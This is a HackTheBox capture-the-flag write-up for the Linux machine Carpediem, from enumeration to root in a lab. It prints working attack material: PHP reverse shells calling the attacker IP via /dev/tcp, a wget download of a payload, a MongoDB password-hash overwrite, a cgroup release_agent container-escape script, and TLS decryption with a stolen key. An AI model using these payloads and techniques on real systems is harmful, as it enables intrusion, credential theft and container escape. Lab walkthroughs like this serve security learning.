# HackTheBox - Carpediem


This post is focused on the walkthrough of Hard Linux Machine Carpediem from HackTheBox.

<!--more-->

## Summary

Carpediem from HackTheBox, a hard linux machine. Here we get an interesting subdomain from fuzzing in which we can make an account and due to some misconfigurations elevate our low privilege user to admin user. From there we get access to the admin panel, where we abuse the upload functionality to get the initial foothold on the machine. In the docker container we're in, we scan the internal network and discover a bunch of services. From these services, we expose a trudesk login panel and mongodb. Having full control of the mongodb, we update a user entry to add a custom password and login as that user. Looking through different tickets and mails, we discover the method to get credentials from Zoiper client and login as `hflaccus` to get the `user.txt`. For privesc, we first utilize `tcpdump` to capture the `https` traffic and analyze it using the ssl cert key in `wireshark`. Here we get credentials for the `backdrop CMS` where we exploit a vulnerability to get shell as `www-data` in a container which we elevate to `root` and finally escape the docker to get `root` on the actual machine.

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ nmap -A -vv 10.10.11.167 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:21:76:f7:2d:c5:f0:4e:e0:a8:df:b4:d9:5e:45:26 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCu1cI0YwetA1ogbtnmphJGBauZ9QMAFq5bAB5hXPJHo3juauB1ZE+fr+JYoWzt0dVoWONbGlmVE3t8udy73OQRLePqRcSqEC4PicOCDFwh3elJt0XuGC16nQJ7bu2++vWEdJb22erkKomy/qiUsDFBg/D+lUQkVo97JxJ9WarEzYVi21cOjcKIDqpXVQMjSuqsXZLSEz34uLnhZs1L7DeeT9V5H1B45Ev59N3VTQAM0bt6MOTfTqOfVQdzlYFl5VLWlZg3UkhZWQ6+Y4jeWKvSp6qviEfgHcaslUTO3WCMs/tYHIdAcxEE4XoCHfLaxHgI9s8hBWyma3ERw3aAX1iqv0UjnaGBSgd6Gght6m+FE8OlqhpUJllFeI31Sbs2aI8O/foxJ3QJcrAiM1ws0ZG7fJ/5vzEB0k1+T1tU9DfX4kgpiWL+reny+4s1bIKNo3OydiCCFBwe1DVOcqWyBz1TZp+ySPG6Pbw11+ZM15oeHeBK8rvVBep+wVJBB8aQ65k=
|   256 b1:6d:e3:fa:da:10:b9:7b:9e:57:53:5c:5b:b7:60:06 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDdWYORigZRc9jSYZXZoTVpmvPD3h0bFyZ7rIPxq+IbykLHWRUFr4sClke/0p+B54VI5PfJOe9nFDjkHfygPfa8=
|   256 6a:16:96:d8:05:29:d5:90:bf:6b:2a:09:32:dc:36:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMyrIUnr3oGuEz3jkFdLlCXtY3qcUXoJ1cOL1arYAxBM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Comming Soon
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

With only 2 ports open, let's go for port `80`.




There's nothing much to do in this website. Directory brute-forcing also didn't give much. 

So checking for virtual hosts for `carpediem.htb` we got a subdomain `portal.carpediem.htb`.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ wfuzz -c -f sub-fighter -w /home/kali/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  -u 'http://carpediem.htb' -H "Host: FUZZ.carpediem.htb"  --hh 2875

Target: http://carpediem.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000048:   200        462 L    2174 W     31090 Ch    "portal"                                                                                                                                                                   

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0

```

### portal.carpediem.htb



I tried directory brute-forcing here as well and got the following results.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ gobuster dir -u http://portal.carpediem.htb/ -w /usr/share/wordlists/dirb/common.txt -o dirPortal

/.hta                 (Status: 403) [Size: 285]
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/admin                (Status: 301) [Size: 328] [--> http://portal.carpediem.htb/admin/]
/assets               (Status: 301) [Size: 329] [--> http://portal.carpediem.htb/assets/]
/build                (Status: 301) [Size: 328] [--> http://portal.carpediem.htb/build/]
/classes              (Status: 301) [Size: 330] [--> http://portal.carpediem.htb/classes/]
/dist                 (Status: 301) [Size: 327] [--> http://portal.carpediem.htb/dist/]
/inc                  (Status: 301) [Size: 326] [--> http://portal.carpediem.htb/inc/]
/index.php            (Status: 200) [Size: 31090]
/libs                 (Status: 301) [Size: 327] [--> http://portal.carpediem.htb/libs/]
/plugins              (Status: 301) [Size: 330] [--> http://portal.carpediem.htb/plugins/]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 330] [--> http://portal.carpediem.htb/uploads/]
Progress: 4614 / 4615 (99.98%)===============================================================
2022/10/31 10:15:24 Finished
===============================================================
```

We have a few interesting dirs here. But `/uploads` is currently forbidden and we also don't have access to `/admin`.




Let's dig in further.

From the main page, we have login option, but since we don't have any credentials yet so I created an account to check the further functionality.

After loggin in, when we go to our profile on the following url `http://portal.carpediem.htb/?p=my_account`, we can see a `Manage Account` button.



Here we get a page to edit our account details.



Going further down we can also update our details.



### Promoting yourself to admin

On capturing the request for update details on `burp`, we have a `POST` parameter `login_type`.



Changing the value of `login_type` from `2` to `1`. It still returns a `success` message.



Visiting the `/admin` endpoint, we can now access it.



### Leveraging the vulnerable upload functionality

Looking around on the Quaterly Sales Report page at `http://portal.carpediem.htb/admin/?page=maintenance/files` there's a message.



This could mean that we can abuse the upload functionality here.

Attempting to check the `Add` button in the same page we can see the `upload` function calling which might be vulnerable as stated above.





I tried looking for other pages which has upload functionality as well.

## Foothold

On visiting the `My Account` page at `http://portal.carpediem.htb/admin/?page=user`, we have a upload profile photo option.



From `wappalyzer` we can determine that `php` is the backend language here so I tried uploading a php reverse shell.

On uploading a photo or php shell, it calls the `f=save` parameter and due to this our shell doesn't get uploaded.

But if we replace `save` with `upload` here it might work.

A few things to note here. While uploading the file we need to change the parameter `f=upload` and form-data `name="file_upload"`.



On successfully uploading, it also shows the path of the uploaded file.

On visiting the path, we get the shell as `www-data` in a `docker` container.



On this `docker` container, there are a few credentials in some files in `/var/www/html/portal`.





We have nothing much to check the credentials here, so we can analyze the network.

### Analyzing the internal network

Looking at our IP Address, we might be part of a `172.17.0.1` network.



Now we can analyze the internal network with `nmap`.

From the `nmap` scan, we can see there are a few hosts up with open ports in the network.

```
Nmap scan report for 172.17.0.1
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Nmap scan report for 172.17.0.2
PORT    STATE SERVICE REASON
21/tcp  open  ftp     syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack

Nmap scan report for 172.17.0.3
PORT     STATE SERVICE REASON
3306/tcp open  mysql   syn-ack

Nmap scan report for 172.17.0.4
Host is up (0.00016s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap scan report for 172.17.0.6
Host is up (0.00016s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8118/tcp open  unknown
```

### Enumerating the discovered services

Forwarding the ports with `chisel`, we can analyze each service.

On attacker machine,

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ ./chisel server --reverse --port 8000
2022/11/01 00:32:25 server: Reverse tunnelling enabled
2022/11/01 00:32:25 server: Fingerprint N/tbpQW/0xU3zbPb5OiJ6Ri2saMVmU58oModSPs3IGA=
2022/11/01 00:32:25 server: Listening on http://0.0.0.0:8000
```

On target server,

```bash
www-data@3c371615b7aa:/tmp$ ./chisel client 10.10.14.46:8000 R:8118:172.17.0.6:8118 R:27017:172.17.0.4:27017 R:3306:172.17.0.3:3306 R:21:172.17.0.2:21 R:80:172.17.0.2:80 R:443:172.17.0.2:443&
```

Here the host `172.17.0.1` is the one we found in the beginning.

Host `172.17.0.2` is running `backdrop CMS` for which we don't currently have any credentials yet.



Host `172.17.0.3` is running a mysql service.

Host `172.17.0.4` is running mongodb.

Host `172.17.0.6` is running `trudesk` login page.



### Infiltrating using mongodb and trudesk.

Visiting port `27017` on web browser throws an error.



But we can access it through [mongosh](https://www.mongodb.com/docs/mongodb-shell/install/).

After analyzing the mongodb, we found some credentials.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ mongosh mongodb://127.0.0.1:27017

test> show dbs
admin    132.00 KiB
config   108.00 KiB
local     88.00 KiB
trudesk    1.07 MiB

test> use trudesk

trudesk> show collections
accounts
counters
departments
groups
messages
notifications
priorities
role_order
roles
sessions
settings
tags
teams
templates
tickets
tickettypes

trudesk> db.accounts.find()
[
  {
    _id: ObjectId("623c8b20855cc5001a8ba13c"),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'admin',
    password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',
    fullname: 'Robert Frost',
    email: 'rfrost@carpediem.htb',
    role: ObjectId("623c8b20855cc5001a8ba138"),
    title: 'Sr. Network Engineer',
    accessToken: '22e56ec0b94db029b07365d520213ef6f5d3d2d9',
    __v: 0,
    lastOnline: ISODate("2022-04-07T20:30:32.198Z")
  },
  {
    _id: ObjectId("6243c0be1e0d4d001b0740d4"),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'jhammond',
    email: 'jhammond@carpediem.htb',
    password: '$2b$10$n4yEOTLGA0SuQ.o0CbFbsex3pu2wYr924cKDaZgLKFH81Wbq7d9Pq',
    fullname: 'Jeremy Hammond',
    title: 'Sr. Systems Engineer',
    role: ObjectId("623c8b20855cc5001a8ba139"),
    accessToken: 'a0833d9a06187dfd00d553bd235dfe83e957fd98',
    __v: 0,
    lastOnline: ISODate("2022-04-01T23:36:55.940Z")
  },
  {
    _id: ObjectId("6243c28f1e0d4d001b0740d6"),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'jpardella',
    email: 'jpardella@carpediem.htb',
    password: '$2b$10$nNoQGPes116eTUUl/3C8keEwZAeCfHCmX1t.yA1X3944WB2F.z2GK',
    fullname: 'Joey Pardella',
    title: 'Desktop Support',
    role: ObjectId("623c8b20855cc5001a8ba139"),
    accessToken: '7c0335559073138d82b64ed7b6c3efae427ece85',
    __v: 0,
    lastOnline: ISODate("2022-04-07T20:33:20.918Z")
  },
  {
    _id: ObjectId("6243c3471e0d4d001b0740d7"),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'acooke',
    email: 'acooke@carpediem.htb',
    password: '$2b$10$qZ64GjhVYetulM.dqt73zOV8IjlKYKtM/NjKPS1PB0rUcBMkKq0s.',
    fullname: 'Adeanna Cooke',
    title: 'Director - Human Resources',
    role: ObjectId("623c8b20855cc5001a8ba139"),
    accessToken: '9c7ace307a78322f1c09d62aae3815528c3b7547',
    __v: 0,
    lastOnline: ISODate("2022-03-30T14:21:15.212Z")
  },
  {
    _id: ObjectId("6243c69d1acd1559cdb4019b"),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'svc-portal-tickets',
    email: 'tickets@carpediem.htb',
    password: '$2b$10$CSRmXjH/psp9DdPmVjEYLOUEkgD7x8ax1S1yks4CTrbV6bfgBFXqW',
    fullname: 'Portal Tickets',
    title: '',
    role: ObjectId("623c8b20855cc5001a8ba13a"),
    accessToken: 'f8691bd2d8d613ec89337b5cd5a98554f8fffcc4',
    __v: 0,
    lastOnline: ISODate("2022-03-30T13:50:02.824Z")
  }
]
trudesk>

```

Sadly, they are not crackable. But since we have full read/write access to the db, we can update entries here as well.

Looking [here](https://github.com/polonel/trudesk/blob/fbe39063262df9312885bdbf2c95725d8e46794c/src/models/user.js) we can see that `trudesk` uses `bcrypt` to hash the passwords. We can write a simple `python` program ([reference](https://zetcode.com/python/bcrypt/)) to generate a similar hash and replace the original one.

Generating the salt,

```python
import bcrypt

newPassword = b'supersecretpassword'
salt = bcrypt.gensalt(rounds=10)
genPassword = bcrypt.hashpw(newPassword,salt)

print(genPassword)
```

Then running this file,

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ python3 script.py
b'$2b$10$0bHoqmpfWmyu0.Q7T/LTd.CZGKcYH8vieKDxPPEi9Jdhr9Qfx5sGC'
```

Now updating the db entry,
```bash
trudesk> db.accounts.update( {"_id": ObjectId("623c8b20855cc5001a8ba13c")}, {$set: {"password": "$2b$10$0bHoqmpfWmyu0.Q7T/LTd.CZGKcYH8vieKDxPPEi9Jdhr9Qfx5sGC"}});
```


We can now login to `trudesk` with credentials `admin:supersecretpassword`.

Logging in we get the dashboard.



### Listening to the credentials

Looking around on the Active Tickets page, we have a ticket regarding new employee on-boarding.



In the mail it is mentioned that the new employee `Horace Flaccus` will get his credentials on a voicemail. It is also mentioned that they've been using `zoiper` client to do the process.



We can download the `zoiper` client and perform the mentioned process to get the credentials.

After downloading the zoiper client, we can use above mentioned credentials `9650:2022` and `carpediem.htb` as domain. 

Simply dialing a call to `*62` we can listen to the credentials.



From the obtained credentials, we can login as `hflaccus` to `ssh`.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ ssh hflaccus@carpediem.htb                                 
hflaccus@carpediem.htb's password: 

hflaccus@carpediem:~$ whoami
hflaccus

hflaccus@carpediem:~$ 
```

### user.txt

```bash
hflaccus@carpediem:~$ ls -al
total 32
drwxr-x--- 4 hflaccus hflaccus 4096 May 26 14:34 .
drwxr-xr-x 6 root     root     4096 May 26 14:34 ..
lrwxrwxrwx 1 hflaccus hflaccus    9 Apr  1  2022 .bash_history -> /dev/null
-rw-r--r-- 1 hflaccus hflaccus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 hflaccus hflaccus 3771 Feb 25  2020 .bashrc
drwx------ 2 hflaccus hflaccus 4096 May 26 14:34 .cache
drwxrwxr-x 3 hflaccus hflaccus 4096 May 26 14:34 .local
-rw-r--r-- 1 hflaccus hflaccus  807 Feb 25  2020 .profile
-rw-r----- 1 root     hflaccus   33 Nov  1 05:23 user.txt

hflaccus@carpediem:~$ cat user.txt 
37****************************2c

hflaccus@carpediem:~$ 
```

## Privilege Escalation

Looking at the capabilities, we have `tcpdump` capability enabled.



Also, linpeas output showed ssl cert key for the site `backdrop.carpediem.htb`.



So we can try capturing the https traffic from `tcpdump` as we have the mechanism to decrypt the traffic.

### Analyzing the https traffic

First we need to capture the traffic for about 2 minutes.

```bash
hflaccus@carpediem:/tmp$ tcpdump -i docker0 port 443 -w cap.pcap
tcpdump: listening on docker0, link-type EN10MB (Ethernet), capture size 262144 bytes
```

Then transfer the `cap.pcap` file and `/etc/ssl/certs/backdrop.carpediem.htb.key` file to our machine.

Now fire-up the `wireshark`, add the decryption key and read the `TLSv1.2` streams.


Boom! We got some more credentials.

These creds are for `backrop.carpediem.htb` site we found earlier.

### SSH tunneling 

As we found earlier, `backrop` website is running on `172.17.0.2` port `443` so we can use ssh tunneling this time to forward that port.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/carpediem/pcaps]
└─$ ssh -L 443:172.17.0.2:443 hflaccus@carpediem.htb
```



Successfully logged in as `jpardella`.



### Exploiting Backdrop CMS

Looking for backrop CMS exploits, we found [this](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS) article.

Following this vulnerability, we can upload a malicious `tar` file as a module and get `RCE`.

Download the `reference.tar` binary from [here](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/tag/backdrop). Untar it and modify the `shell.php` file as follows.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ cat reference/shell.php 
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.46/4444 0>&1'");?>
```

Add a new module at `https://127.0.0.1/?q=admin/modules/install`. Then select manual installation.



Upload the malicious `reference.tar` file.



Enable the newly added module.



### Shell as www-data on 172.17.0.2

Now start a `netcat` listener on port `4444` & visit the `shell.php` file.

And we got the shell as `www-data`.


### www-data -> root in the same container

Looking around in the `/opt` directory, we have a file `heartbeat.sh`

```bash
www-data@90c7f522b842:/opt$ cat heartbeat.sh
cat heartbeat.sh
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
        exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
        #something went wrong.  restoring from backup.
        cp /root/index.php /var/www/html/backdrop/index.php
fi
www-data@90c7f522b842:/opt$
```

In this script, it is calling the `backdrop.sh` file.

```bash
www-data@90c7f522b842:/var/www/html/backdrop$ cat core/scripts/backdrop.sh
cat core/scripts/backdrop.sh
#!/usr/bin/env php
<?php

/**
 * Backdrop shell execution script
 *
 * Check for your PHP interpreter - on Windows you'll probably have to
 * replace line 1 with
 *   #!c:/program files/php/php.exe
 *
 * @param path  Backdrop's absolute root directory in local file system (optional).
 * @param URI   A URI to execute, including HTTP protocol prefix.
 */
$script = basename(array_shift($_SERVER['argv']));

if (in_array('--help', $_SERVER['argv']) || empty($_SERVER['argv'])) {
  echo <<<EOF

Execute a Backdrop page from the shell.

Usage:        {$script} [OPTIONS] "<URI>"
Example:      {$script} "http://mysite.org/node"

All arguments are long options.

  --help      This page.

  --root      Set the working directory for the script to the specified path.
              To execute Backdrop this has to be the root directory of your
              Backdrop installation, f.e. /home/www/foo/backdrop (assuming
              Backdrop is running on Unix). Current directory is not required.
              Use surrounding quotation marks on Windows.

  --verbose   This option displays the options as they are set, but will
              produce errors from setting the session.

  URI         The URI to execute, i.e. http://default/foo/bar for executing
              the path '/foo/bar' in your site 'default'. URI has to be
              enclosed by quotation marks if there are ampersands in it
              (f.e. index.php?q=node&foo=bar). Prefix 'http://' is required,
              and the domain must exist in Backdrop's sites-directory.

              If the given path and file exists it will be executed directly,
              i.e. if URI is set to http://default/bar/foo.php
              and bar/foo.php exists, this script will be executed without
              bootstrapping Backdrop. To execute Backdrop's cron.php, specify
              http://default/core/cron.php as the URI.


To run this script without --root argument invoke it from the root directory
of your Backdrop installation with

  ./scripts/{$script}
\n
EOF;
  exit;
}

// define default settings
$cmd = 'index.php';
$_SERVER['HTTP_HOST']       = 'default';
$_SERVER['PHP_SELF']        = '/index.php';
$_SERVER['REMOTE_ADDR']     = '127.0.0.1';
$_SERVER['SERVER_SOFTWARE'] = NULL;
$_SERVER['REQUEST_METHOD']  = 'GET';
$_SERVER['QUERY_STRING']    = '';
$_SERVER['PHP_SELF']        = $_SERVER['REQUEST_URI'] = '/';
$_SERVER['HTTP_USER_AGENT'] = 'console';

// toggle verbose mode
if (in_array('--verbose', $_SERVER['argv'])) {
  $_verbose_mode = true;
}
else {
  $_verbose_mode = false;
}

// parse invocation arguments
while ($param = array_shift($_SERVER['argv'])) {
  switch ($param) {
    case '--root':
      // change working directory
      $path = array_shift($_SERVER['argv']);
      if (is_dir($path)) {
        chdir($path);
        if ($_verbose_mode) {
          echo "cwd changed to: {$path}\n";
        }
      }
      else {
        echo "\nERROR: {$path} not found.\n\n";
      }
      break;

    default:
      if (substr($param, 0, 2) == '--') {
        // ignore unknown options
        break;
      }
      else {
        // parse the URI
        $path = parse_url($param);

        // set site name
        if (isset($path['host'])) {
          $_SERVER['HTTP_HOST'] = $path['host'];
        }

        // set query string
        if (isset($path['query'])) {
          $_SERVER['QUERY_STRING'] = $path['query'];
          parse_str($path['query'], $_GET);
          $_REQUEST = $_GET;
        }

        // set file to execute or Backdrop path (clean URLs enabled)
        if (isset($path['path']) && file_exists(substr($path['path'], 1))) {
          $_SERVER['PHP_SELF'] = $_SERVER['REQUEST_URI'] = $path['path'];
          $cmd = substr($path['path'], 1);
        }
        elseif (isset($path['path'])) {
          if (!isset($_GET['q'])) {
            $_REQUEST['q'] = $_GET['q'] = $path['path'];
          }
        }

        // display setup in verbose mode
        if ($_verbose_mode) {
          echo "Hostname set to: {$_SERVER['HTTP_HOST']}\n";
          echo "Script name set to: {$cmd}\n";
          echo "Path set to: {$_GET['q']}\n";
        }
      }
      break;
  }
}

if (file_exists($cmd)) {
  include $cmd;
}
else {
  echo "\nERROR: {$cmd} not found.\n\n";
}
exit();
www-data@90c7f522b842:/var/www/html/backdrop$
```

It's a php file which runs with argument `--root` which sets the working directory for the script to the specified path which in our case is `/var/www/html/backdrop` and then finally calls the site at `https://localhost` to check if the site is alive or not.

How we can use this as our advantage is, we can replace the `/var/www/html/backdrop/index.php` file with our crafted malicious `php` file and everytime this heartbeat check is called, our malicious script will be executed instead.

Now create a crafted index.php file

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ cat index.php                                                 
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.46/1234 0>&1'");?>
```

Start a `nc` listener at `1234`, delete the old `index.php` file and replace it with our own.

```bash
www-data@90c7f522b842:/var/www/html/backdrop$ rm -f index.php && wget http://10.10.14.46/index.php
<m -f index.php && wget http://10.10.14.46/index.php
--2022-11-02 06:56:13--  http://10.10.14.46/index.php
Connecting to 10.10.14.46:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 71 [application/octet-stream]
Saving to: 'index.php'

     0K                                                       100%  100K=0.001s

2022-11-02 06:56:13 (100 KB/s) - 'index.php' saved [71/71]

www-data@90c7f522b842:/var/www/html/backdrop$
```



### Escaping the privileged docker container

Now for getting `root` on the main machine and escaping the docker we can read [this](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1) article.

Following the article, I made the following script.

```bash
mkdir /tmp/privesc
mount -t cgroup -o rdma cgroup /tmp/privesc
mkdir /tmp/privesc/x
echo 1 > /tmp/privesc/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/privesc/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.46/9001 0>&1'" >> /cmd
chmod a+x /cmd
bash -c "echo \$\$ > /tmp/privesc/x/cgroup.procs"
```

Now again start a `nc` listener on port `9001` and execute the script. 

But before executing the script, 


Mounting a cgroupfs requires the CAP_SYS_ADMIN capability in the user namespace hosting the current cgroup namespace. By default, containers run without CAP_SYS_ADMIM, and thus cannot mount cgroupfs in the initial user namespace. But through the unshare() syscall, containers can create new user and cgroup namespaces where they possess the CAP_SYS_ADMIN capability and can mount a cgroupfs.


Source: https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/

```
root@90c7f522b842:~# unshare -UrmC bash

root@90c7f522b842:~# wget http://10.10.14.46/script.sh &>/dev/null && chmod +x script.sh && ./script.sh

```

And finally we got `root`.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/carpediem]
└─$ nc -lvnp 9001          
listening on [any] 9001 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.11.167] 35810

root@carpediem:/# whoami
root
```

### root.txt

```bash
root@carpediem:/# ls -al
ls -al
total 72
drwxr-xr-x  19 root root  4096 May 26 14:34 .
drwxr-xr-x  19 root root  4096 May 26 14:34 ..
lrwxrwxrwx   1 root root     7 Aug 24  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jun 20 12:05 boot
drwxr-xr-x   2 root root  4096 Oct 26  2021 cdrom
drwxr-xr-x  19 root root  3940 Nov  2 05:23 dev
drwxr-xr-x 110 root root  4096 Jun 23 15:55 etc
drwxr-xr-x   6 root root  4096 May 26 14:34 home
lrwxrwxrwx   1 root root     7 Aug 24  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 24  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 24  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 24  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct 26  2021 lost+found
drwxr-xr-x   2 root root  4096 Aug 24  2021 media
drwxr-xr-x   2 root root  4096 May 26 14:34 mnt
drwxr-xr-x   3 root root  4096 May 26 14:34 opt
dr-xr-xr-x 338 root root     0 Nov  2 05:23 proc
drwx------   6 root root  4096 Jun 23 15:54 root
drwxr-xr-x  27 root root   880 Nov  2 11:48 run
lrwxrwxrwx   1 root root     8 Aug 24  2021 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 May 26 14:34 srv
dr-xr-xr-x  13 root root     0 Nov  2 05:23 sys
drwxrwxrwt  12 root root  4096 Nov  2 13:35 tmp
drwxr-xr-x  14 root root  4096 May 26 13:51 usr
drwxr-xr-x  13 root root  4096 May 26 14:34 var

root@carpediem:/# cat /root/root.txt
cat /root/root.txt
8c****************************c6

root@carpediem:/#
```

**Thanks for reading!**
